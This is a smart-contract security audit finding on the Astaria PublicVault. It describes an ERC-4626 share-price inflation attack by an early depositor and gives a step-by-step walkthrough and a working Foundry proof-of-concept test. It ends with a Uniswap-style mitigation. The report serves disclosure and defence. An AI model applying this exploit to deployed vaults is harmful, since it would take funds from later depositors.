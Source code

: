 joestakey

high

# `PublicVault.deposit()` can be broken by early minter

## Summary

An early minter can break the `VaultToken` price, resulting in future depositors losing `underlying` upon redeem.

## Vulnerability Detail

Liquidity providers earn interest on funds provided to `PublicVaults`. When a liquidity provider deposits capital into a `PublicVault`, they are minted yield-bearing ERC-4626 `VaultTokens`

Liquidity deposit by calling `PublicVault.deposit()`. The function calls `ERC4626Cloned.deposit()`, which computes the amount of `VaultTokens` to be minted, and transfers the liquidity to the `PublicVault`.

The issue is that because of how `convertToShares` computes the amount of shares to be minted, an early minter can inflate the share price and steal `underlying` from future depositors.


# Impact

A direct consequence from this `VaultToken` price inflation is that early minters can essentially steal `underlying` from future minters

## Proof Of Concept

- Alice calls `deposit(1)`, depositing `1` unit of `underlying` in `PublicVault`. She receives `1` `VaultToken`.
- Alice transfers `1e18 - 1` underlying to the `PublicVault` using the `ERC20.transfer()` method.
- Bob calls `PublicVault.deposit(1.999999e18)`.
- Because of Alice's transfer, `totalSupply = 1e18`. `1 * 1.9999 e18 / 1e18` rounds to `1`: Bob receives `1` `VaultToken`: the same amount as Alice.
- Alice calls `redeemFutureEpoch` to redeem her shares at the next epoch. Because she owns half of the shares, she will receive ~`1.5 * 1e18` `underlying`, effectively stealing approximately `0.5 * 1e18` from Bob.

Run this test - you can add it to `AstariaTest.t.sol`:

```solidity
function testAttackSharesBreak() public {
    Dummy721 nft = new Dummy721();
    address tokenContract = address(nft);
    uint256 tokenId = uint256(1);

    address publicVault = _createPublicVault({
      strategist: strategistOne,
      delegate: strategistTwo,
      epochLength: 14 days
    });

    _lendToVault(
      Lender({addr: address(1), amountToLend: 1}),
      publicVault
    );
    uint amountTransfer = 1e18 - 1;
    vm.deal(address(1), amountTransfer);
    vm.startPrank(address(1));
    WETH9.deposit{value: amountTransfer}();
    WETH9.transfer(publicVault, amountTransfer);
    vm.stopPrank();

    uint256 amountTwo = 1.999999999 * 1e18;
    // address(2) provides 1.999999999 * 1e18 of liquidity to the Vault
    _lendToVault(
      Lender({addr: address(2), amountToLend: amountTwo}),
      publicVault
    );

    // uint256 collateralId = tokenContract.computeId(tokenId);
    uint256 vaultBalanceUserOne = IERC20(publicVault).balanceOf(address(1));

    // address(1) and address(2) own the same amount of VaultTokens
    assertEq(1, IERC20(publicVault).balanceOf(address(1)));
    assertEq(1, IERC20(publicVault).balanceOf(address(2)));

    // _signalWithdrawAtFutureEpoch(address(1), publicVault, uint64(1));
    _signalWithdraw(address(1), publicVault);

    address withdrawProxy = PublicVault(publicVault).withdrawProxies(
      PublicVault(publicVault).getCurrentEpoch()
    );


    vm.warp(block.timestamp + 15 days);

    PublicVault(publicVault).processEpoch();

    vm.warp(block.timestamp + 13 days);
    PublicVault(publicVault).transferWithdrawReserve();

    vm.startPrank(address(1));

    WithdrawProxy(withdrawProxy).redeem(
      vaultBalanceUserOne,
      address(1),
      address(1)
    );
    vm.stopPrank();

    //address(1) withdrew ~1.5e18 underlying
    assertApproxEqAbs(ERC20(PublicVault(publicVault).underlying()).balanceOf(address(1)), 1.5 ether,1e17); //10% delta

    // only ~1.5e18 underlying left in Vault: address(2) effectively lost ~0.5e18
    assertApproxEqAbs(ERC20(PublicVault(publicVault).underlying()).balanceOf(publicVault), 1.5 ether,  1e17 ); //10% delta
}
```

## Code Snippet
https://github.com/sherlock-audit/2022-10-astaria/blob/main/lib/astaria-gpl/src/ERC4626-Cloned.sol#L400

## Tool Used

Manual Review, Foundry

## Recommendation

Consider sending the first 1000 `VaultToken` to the address 0, a mitigation used in [Uniswap V2](https://github.com/Uniswap/v2-core/blob/master/contracts/UniswapV2Pair.sol#L119-L124).